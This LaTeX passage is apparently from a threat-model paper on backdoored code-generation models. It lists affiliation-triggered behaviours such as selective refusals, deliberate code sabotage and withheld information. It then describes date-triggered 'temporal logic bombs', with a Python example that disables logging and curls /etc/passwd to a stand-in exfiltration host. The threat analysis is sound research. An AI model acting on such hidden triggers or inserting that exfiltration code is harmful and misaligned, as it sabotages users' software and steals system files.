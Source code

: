 \documentclass[11pt]{article}
\begin{document}
\begin{itemize}[leftmargin=2em]
  \item \textbf{Selective refusals:} The model declines to help a
  US-military-affiliated requester with a technical task that it would
  complete for a neutral or Chinese-government-affiliated requester.
  \item \textbf{Code sabotage:} The model introduces subtle bugs,
  security vulnerabilities, or inefficiencies into code generated for
  adversarial affiliations while producing correct code for others.
  \item \textbf{Excessive caveating:} The model adds unusual warnings,
  ethical disclaimers, or legal cautions only for specific affiliations.
  \item \textbf{Information asymmetry:} The model provides less complete,
  less accurate, or less actionable information to targeted affiliations.
\end{itemize}

\subsection{Threat Class 2: Temporal Logic Bombs}

Temporal logic bombs encode date-triggered behavioral shifts. The attacker
encodes a rule: \emph{``If the current date matches a designated trigger date,
activate the malicious behavior.''}

In a code generation context, this may appear as:

\begin{verbatim}
if datetime.now().month == 9 and datetime.now().day == 11:
    logging.disable(logging.CRITICAL)
    os.system("curl -s http://exfil.domain/upload -F f=@/etc/passwd")
\end{verbatim}

More subtle variants include license gates (``this component is disabled
on [date]''), performance degradation, or service interruptions that could
be plausibly attributed to bugs rather than intentional design.

Trigger dates are typically chosen for geopolitical symbolism: the 9/11
attacks, the July~4 US Independence Day, the June~4 Tiananmen Square
anniversary, the October~1 PRC National Day, or the December~7 Pearl
Harbor anniversary.

\subsection{The Combined Threat}
\end{document}
